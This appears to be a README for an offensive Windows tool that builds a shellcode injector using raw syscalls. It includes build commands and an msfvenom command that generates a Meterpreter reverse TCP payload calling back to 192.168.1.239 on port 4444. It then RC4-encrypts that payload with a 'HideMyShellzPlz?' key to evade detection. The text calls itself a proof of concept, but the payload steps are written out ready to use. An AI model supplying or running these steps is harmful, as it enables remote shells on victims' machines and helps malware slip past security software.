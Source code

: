 # AutoSyscall

This library builds and makes a shellcode injector for all versions of Windows using raw syscalls.

This code is a PoC and has only been tested windows 10 x64 version 1909, this is because of the syscall numbers changing between versions, the values can be found [here](https://j00ru.vexillium.org/syscalls/nt/64/).

## Install & Build

```
git clone https://github.com/bats3c/DefensiveInjector
cd DefensiveInjector
python generate.py
make _XP_SP2
make injector
```
The _XP_SP2 value is the define string for the shellcode.asm file, this will target specific versions of windows.

## Using different shellcode

- ##### Generate your shellcode either with msfvenom or something else
    `msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin`

- ##### Encrypt the shellcode
    Keeping in mind that if you change it here you will need to update the key on line 132 in `main.c`
    `cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin`

- ##### Format the shellcode
    Run `xxd -i encmeter.bin` then replace everything between line 10-60 with the output

## Dependencies

```
sudo apt install mingw-w64 nasm python
```
